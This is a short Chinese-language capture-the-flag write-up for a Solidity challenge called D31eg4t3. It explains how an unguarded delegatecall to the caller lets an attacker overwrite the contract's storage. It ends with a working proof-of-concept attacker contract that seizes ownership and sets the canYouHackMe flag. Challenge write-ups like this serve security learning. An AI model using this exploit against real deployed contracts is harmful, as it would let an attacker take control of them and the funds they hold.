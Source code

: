 ## D31eg4t3

### 目标

- 成为合约的所有者
- 将 `canYouHackMe[msg.sender]` 设置为 true。

### 分析

在 `hackMe` 方法中

```solidity
function hackMe(bytes calldata bites) public returns (bool, bytes memory) {
    (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
    return (r, msge);
}
```

使用 `delegatecall` 来调用 `msg.sender` 合约中的 `bites`

由于 `delegatecall` 调用时, 上下文是在 `D31eg4t3` 合约内的。

故可以用攻击合约, 调用 `hackMe`

```
AttacterContract => D31eg4t3.hackMe => AttacterContract.<any method> => 更新 slot
```

`AttacterContract.<any method>` 执行时的上下文是在 `D31eg4t3` 合约内的。因此可以直接更改 `D31eg4t3` 合约变量

### POC

```solidity
contract D31eg4t3Attacker {
    uint256 slot0;
    uint256 slot1;
    uint256 slot2;
    uint256 slot3;
    uint256 slot4;
    address owner;
    mapping(address => bool) public canYouHackMe; // canYouHackMe

    function pwn(address target) external {
        (bool success, ) = D31eg4t3(target).hackMe("");
        require(success, "failed.");
    }

    fallback() external {
        owner = tx.origin;
        canYouHackMe[tx.origin] = true;
    }
}
```
